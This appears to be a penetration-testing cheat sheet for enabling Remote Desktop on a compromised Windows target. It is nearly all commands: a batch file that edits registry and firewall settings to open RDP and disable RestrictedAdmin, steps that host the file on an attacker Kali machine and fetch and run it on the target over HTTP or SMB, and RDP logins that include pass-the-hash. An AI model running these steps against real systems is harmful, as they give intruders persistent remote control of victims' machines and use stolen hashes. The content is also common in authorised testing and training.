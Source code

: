 # Enable Remote Desktop (RDP) on the target via an elevated shell

You will need an elevated shell to enable RDP

Save the following commands on a .bat file - ex.: `enablerdp.bat` or [download it here](enablerdp.bat).

```cmd
reg add "hklm\system\currentControlSet\Control\Terminal Server" /v "AllowTSConnections" /t REG_DWORD /d 0x1 /f
reg add "hklm\system\currentControlSet\Control\Terminal Server" /v "fDenyTSConnections" /t REG_DWORD /d 0x0 /f
reg add "hklm\system\currentControlSet\Control\Lsa" /v "DisableRestrictedAdmin" /t REG_DWORD /d 0x0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fAllowToGetHelp /t REG_DWORD /d 1 /f
netsh advfirewall set rule group="remote administration" new enable="yes"
netsh advfirewall firewall set rule group="remote administration" new enable=yes
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes profile=domain
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes profile=private
netsh firewall add portopening TCP 3389 "Remote Desktop"
netsh firewall set service RemoteDesktop enable
netsh firewall set service RemoteDesktop enable profile=ALL
netsh firewall set service RemoteAdmin enable
sc config TermService start= auto
net start Termservice
```

## HTTP

Start hosting the file on a HTTP server

```bash
cd /usr/share/windows-resources/binaries/
sudo python -m http.server 9090
```

On the target, copy the file on PowerShell and execute it.

```powershell
mkdir C:\Temp\
Invoke-WebRequest -Uri 'http://<Kali_IP>:9090/enablerdp.bat' -OutFile C:\Temp\enablerdp.bat
cmd /c C:\Temp\enablerdp.bat
```

## SMB

Start hosting the file on a SMB share.

```bash
cd /usr/share/windows-resources/binaries/
impacket-smbserver share $(pwd) -smb2support
```

On the target copy the file and execute it.

```cmd
xcopy \\<Kali_IP>\share\enablerdp.bat C:\Temp\
C:\Temp\enablerdp.bat
```

OR

```bash
crackmapexec smb <Target_IP> -u '<username>' -p '<password>' -M rdp -o ACTION=enable
```

- I am not sure if this really works

Now, try to access it

```bash
rdesktop <Target_IP> -d '<DOMAIN>' -u '<User>' -p '<Pwd>'


rdesktop <Target_IP> -d '<DOMAIN>' -u '<User>' -p '<Pwd>' -r disk:kali=/home/kali
```

OR

```bash
xfreerdp /v:<Target_IP> /d:'<DOMAIN>' /u:'<User>' /p:'<Pwd>' /w:1920 /h:1080


xfreerdp /v:<Target_IP> /d:'<DOMAIN>' /u:'<User>' /pth:'<HASH>' /drive:kali,/home/kali
```
